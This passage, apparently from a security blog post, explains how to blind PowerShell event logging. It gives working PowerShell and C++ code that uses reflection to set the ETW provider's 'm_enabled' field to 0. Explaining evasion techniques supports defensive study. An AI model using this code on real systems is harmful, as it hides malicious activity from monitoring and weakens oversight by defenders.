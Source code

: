Therefore, by setting this attribute to `0`, we can disable the PowerShell ETW provider, and thus block all event logs. This is achieved by the script [KillETW.ps1](https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32) with a pretty long one-liner, which I took the liberty to break down into 5 steps to make it more readable.

```powershell
# Get the "EventProvider" type
$EventProviderType = [Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider')
# Get the field "m_enabled" of the "EventProvider"
$EtwEnabledField = $EventProviderType.GetField('m_enabled','NonPublic,Instance')
# Get the "PSEtwLogProvider" type
$PSEtwLogProviderType = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
# Get the field "etwProvider" of the "PSEtwLogProvider
$EtwProvider = $PSEtwLogProviderType.GetField('etwProvider','NonPublic,Static').GetValue($null)
# Set the value of "m_enabled" to 0 to disable the ETW provider
$EtwEnabledField.SetValue($EtwProvider, 0)
```

This translates into the following in C/C++ code.

```cpp
BOOL DisablePowerShellEtwProvider(mscorlib::_AppDomain* pAppDomain) {
    
    // Variable initialization...

    // Get type information about "System.Management.Automation.Tracing.PSEtwLogProvider"
    pAutomationAssembly->GetType_2(bstrPsEtwLogProviderFullName, &pPsEtwLogProviderType);
    // Get information about the "etwProvider" field
    pPsEtwLogProviderType->GetField(
        bstrEtwProviderFieldName,
        static_cast<mscorlib::BindingFlags>(
            mscorlib::BindingFlags::BindingFlags_Static |
            mscorlib::BindingFlags::BindingFlags_NonPublic
        ),
        &pEtwProviderFieldInfo
    );
    // Get the "EventProvider" object referenced in "etwProvider"
    pEtwProviderFieldInfo->GetValue(vtEmpty, &vtPsEtwLogProviderInstance);
    // Get information about "System.Diagnostics.Eventing.EventProvider"
    pCoreAssembly->GetType_2(bstrEventProviderFullName, &pEventProviderType);
    // Get information about the "m_enabled" field 
    pEventProviderType->GetField(
        bstrEnabledFieldName,
        static_cast<mscorlib::BindingFlags>(
            mscorlib::BindingFlags::BindingFlags_Instance |
            mscorlib::BindingFlags::BindingFlags_NonPublic
        ),
        &pEnabledInfo
    );

    // Set the "m_enabled" field of the "EventProvider" instance to 0
    InitVariantFromInt32(0, &vtZero);
    pEnabledInfo->SetValue_2(vtPsEtwLogProviderInstance, vtZero);

    // Clean up and return...
}
```
